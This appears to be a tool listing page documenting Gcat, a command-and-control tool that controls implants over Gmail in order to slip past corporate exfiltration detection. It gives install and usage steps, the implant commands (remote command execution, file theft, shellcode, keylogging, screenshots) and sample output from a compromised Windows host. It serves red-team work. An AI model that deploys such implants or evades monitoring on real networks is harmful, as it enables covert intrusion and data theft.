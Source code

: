 
Gcat
=======

Website
-------

<https://github.com/byt3bl33d3r/gcat>

Description
-----------

I'm sure we're all aware of the venerable netcat.  Gcat is a close cousin
to netcat.  Rather than simply piping communications over plaintext tcp; gcat
communicates using gmail.  The idea here is that many companies might detect
suspicious data exfiltration.  Or might block direct communications out. 
But if these companies allow their users to access gmail, we can pipe out
through that.


Install Location
----------------

`/opt/gcat/`

Usage
-----

To run the script, first cd to the gcat directory.

`~$` **`cd /opt/gcat`**

And run the application

`/opt/gcat$` **`python ./gcat.py`**

This will show you the help dialog.

		
															dP   
													88   
						.d8888b. .d8888b. .d8888b. d8888P 
						88'  `88 88'  `"" 88'  `88   88   
						88.  .88 88.  ... 88.  .88   88   
						`8888P88 `88888P' `88888P8   dP   
							.88                          
						d8888P  
		
		
						.__....._             _.....__,
							.": o :':         ;': o :".
							`. `-' .'.       .'. `-' .'   
							`---'             `---'  
		
					_...----...      ...   ...      ...----..._
				.-'__..-''----    `.  `"`  .'    ----'''-..__`-.
				'.-'   _.--'''       `-._.-'       ''''--._   `-.`
				'  .-"'                  :                  `"-.  `
				'   `.              _.'"'._              .'   `
						`.       ,.-'"       "'-.,       .'
						`.                           .'
					jgs    `-._                   _.-'
								`"'--...___...--'"`
		
							...IM IN YUR COMPUTERZ...
		
								WATCHIN YUR SCREENZ
		
		optional arguments:
		-h, --help            show this help message and exit
		-v, --version         show program's version number and exit
		-id ID                Client to target
		-jobid JOBID          Job id to retrieve
		
		-list                 List available clients
		-info                 Retrieve info on specified client
		
		Commands:
		Commands to execute on an implant
		
		-cmd CMD              Execute a system command
		-download PATH        Download a file from a clients system
		-upload SRC DST       Upload a file to the clients system
		-exec-shellcode FILE  Execute supplied shellcode on a client
		-screenshot           Take a screenshot
		-lock-screen          Lock the clients screen
		-force-checkin        Force a check in
		-start-keylogger      Start keylogger
		-stop-keylogger       Stop keylogger
		
		Meow!
		




Gcat works in two parts.		

Example 1: Deploying an Implant
-------------------------------

Configuring gcat and its implant is quite simple.  You need to have a
gmail account that you plan to use.  Then simply pop the username and
password into the two scripts gcat.py and implant.py as the "gmail_user"
and "gmail_pwd" variables.  

		#########################################
		gmail_user = 'gcat.is.the.shit@gmail.com'
		gmail_pwd = 'veryc00lp@ssw0rd'
		server = 'smtp.gmail.com'
		server_port = 587
		#########################################

After you have set both gcat.py and implant.py to be properly configured
you can then run the implant on a target machine.

It's just a simple python script.

Example 2: Running a Command & Retrieving Output
------------------------------------------------

Once you have an implant or two running you can control them from gcat.py.
To start we will want to get the list of all attached implants and their ids.
To do this run gcat.py with the -list option.

`/opt/gcat$` **`python ./gcat.py -list`**

		f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
		90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86

Now that we've got a list of attached implants, let's send a command to one.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'`**

		[*] Command sent successfully with jobid: SH3C4gv

Outstanding.  As you can see, we had to specify the id in conjunction with 
the issuance of our command.  This might seem weird to you.  It certainly is
different from traditional netcat.  But think of the id as something akin
to the traditional host.

We do need to send another request in order to retrieve the output from
the command.  That's what the job id is for.

`/opt/gcat$` **`python ./gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv`**

		DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
		JOBID: SH3C4gv
		FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
		CMD: 'ipconfig /all'
		
		
		Windows IP Configuration
		
				Host Name . . . . . . . . . . . . : unknown-2d44b52
				Primary Dns Suffix  . . . . . . . : 
				Node Type . . . . . . . . . . . . : Unknown
				IP Routing Enabled. . . . . . . . : No
				WINS Proxy Enabled. . . . . . . . : No
		
		-- SNIP -

There you go.  That's the basic usage of Gcat.
